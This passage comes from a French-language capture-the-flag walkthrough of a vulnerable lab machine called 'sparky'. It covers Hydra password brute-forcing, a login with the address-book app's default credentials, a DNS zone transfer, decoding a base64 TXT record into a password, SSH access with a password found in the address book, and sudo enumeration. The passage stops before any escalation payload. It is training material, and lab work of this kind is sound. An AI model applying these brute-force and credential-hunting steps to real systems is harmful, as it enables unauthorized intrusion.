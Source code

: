 ```plain
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-02-10 10:17:16
```

45 minutes pour obtenir un mot de passe on aurait préféré s'en passer.  

Une fois connecté on trouve une appli web de type carnet d'adresse dont le projet est sur Github. [La documentation](https://github.com/AlexWinder/address-book#usage) mentionne un mot de passe par défaut :  

> Once database constants have been set you should now be able to log into the system. The default username is "admin" with a password of "LetMeIn123".

Parmi les adresses enregistrées on note les adresses emails suivantes :  

```plain
btaylor@sparky.local
jtaylor@sparky.local
staylor@sparky.local
```

On a donc un domaine, ce qui peut nous servir pour tenter un transfert de zone :  

```plain
$ dig -t axfr sparky.local @192.168.56.26 

; <<>> DiG 9.16.25 <<>> -t axfr sparky.local @192.168.56.26 
;; global options: +cmd 
sparky.local.           604800  IN      SOA     ns1.sparky.local. root.ns1.sparky.local. 3 604800 86400 2419200 604800 
sparky.local.           604800  IN      TXT     "ZFVtYnJlbGxhJSUK" 
sparky.local.           604800  IN      NS      ns1.sparky.local. 
ftp.sparky.local.       604800  IN      CNAME   www.sparky.local. 
mail.sparky.local.      604800  IN      A       10.10.199.4 
ns1.sparky.local.       604800  IN      A       10.10.199.2 
www.sparky.local.       604800  IN      A       10.10.199.3 
sparky.local.           604800  IN      SOA     ns1.sparky.local. root.ns1.sparky.local. 3 604800 86400 2419200 604800 
;; Query time: 7 msec 
;; SERVER: 192.168.56.26#53(192.168.56.26) 
;; WHEN: Thu Feb 10 13:54:29 CET 2022 
;; XFR size: 8 records (messages 1, bytes 268)
```

On remarque un enregistrement TXT étrange qui se décode en base64 en *dUmbrella%%*. Il s'agit vraisemblablement d'un mot de passe mais après un coup d'Hydra sur le port SSH rien n'est moins sûr.  

C'est à ce moment là qu'il fallait de bons yeux sans quoi on peut y passer des heures encore. L'adresse de *Stacey Taylor* dans le carnet d'adresse contient un mot de passe :  

```plain
1313 Mockingbird Lane, pass: NumbBell1745, Anytown, USA, 11111
```

Grace à cette indication on peut se connecter sur le compte SSH *staylor* :  

```plain
staylor@sparky:~$ sudo -l 
[sudo] password for staylor:  
Matching Defaults entries for staylor on sparky: 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin 

User staylor may run the following commands on sparky: 
    (ALL) /usr/bin/crontab
staylor@sparky:~$ sudo /usr/bin/crontab -l 
no crontab for root
```
